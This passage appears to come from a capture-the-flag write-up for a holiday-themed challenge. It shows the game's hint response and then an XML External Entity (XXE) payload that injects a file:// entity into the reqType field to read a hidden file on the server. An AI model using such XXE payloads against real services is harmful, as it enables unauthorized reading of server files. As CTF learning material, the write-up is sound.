 ```
{
  "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
  "droppedOn": "none",
  "visit": "none"
}
```

**REQ** and **TYPE** hints are refering to changing the XXE payload to be in the `<reqType>` tags. Changed the imgDrop back to img1

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt"> ]>
<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>&xxe;</reqType>
</root>
```

![8925a9b9cae9c31a0b16a774785f1450.png](../../_resources/8925a9b9cae9c31a0b16a774785f1450.png)
